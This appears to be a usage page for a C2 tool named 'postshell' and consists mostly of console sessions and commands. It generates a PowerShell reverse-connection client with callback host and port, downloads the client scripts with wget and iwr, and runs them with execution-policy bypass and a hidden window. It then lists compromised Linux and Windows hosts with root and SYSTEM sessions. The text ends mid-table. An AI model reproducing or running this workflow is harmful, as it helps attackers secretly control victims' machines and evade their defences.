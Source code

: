 ```

payload> set name client
[+] Set 'name' to 'client'
payload> set lhost 192.168.0.2
[+] Set 'lhost' to '192.168.0.2'
payload> set lport 4444
[+] Set 'lport' to '4444'
payload> set payload ps1
[+] Set 'payload' to 'ps1'
payload> set checkin 2
[+] Set 'checkin' to '2'
payload> set killswitch 10
[+] Set 'killswitch' to '10'
payload> options 

Current Payload Options:

  NAME      : client
  LHOST     : 192.168.0.2
  LPORT     : 4444
  PAYLOAD   : ps1
  CHECKIN   : 2
  KILLSWITCH: 10

payload> generate 
[+] Payload generated and saved as 'tools/client.ps1'
```

## Transfer the client scripts
```
wget http://127.0.0.1/tools/client.sh

iwr http://127.0.0.1/tools/client.ps1 -outfile client.ps1
```

## Execute the script on the client
```
/bin/ash client.sh

/bin/bash client.sh 

/bin/python3 client.py

powershell -ep bypass client.ps1

powershell -ep bypass -NoProfile -WindowStyle Hidden -File client.ps1
```

## List active clients
```
postshell> list 
╔════╦═════════════════╦═════════════════╦═════════╦════════════════╦══════════════════╦════════╗
║ ID ║ IP              ║ HOSTNAME        ║ USER    ║ OS             ║ VERSION          ║ ARCH   ║
╠════╬═════════════════╬═════════════════╬═════════╬════════════════╬══════════════════╬════════╣
║ 1  ║ 192.168.193.131 ║ ubuntu          ║ clyde   ║ Linux          ║ 6.8.0-41-generic ║ x86_64 ║
║ 2  ║ 192.168.193.131 ║ ubuntu          ║ root    ║ Linux          ║ 6.8.0-41-generic ║ x86_64 ║
║ 3  ║ 192.168.193.129 ║ DESKTOP-P5KACDB ║ jimothy ║ Windows 10 Pro ║ 10.0.19045       ║ 64-bit ║
║ 4  ║ 192.168.193.129 ║ DESKTOP-P5KACDB ║ system  ║ Windows 10 Pro ║ 10.0.19045       ║ 64-bit ║
╚════╩═════════════════╩═════════════════╩═════════╩════════════════╩══════════════════╩════════╝

postshell> list
╔════╦═════════════╦══════════╦═══════════╦══════════════════════════════╦════════════╦════════╗
```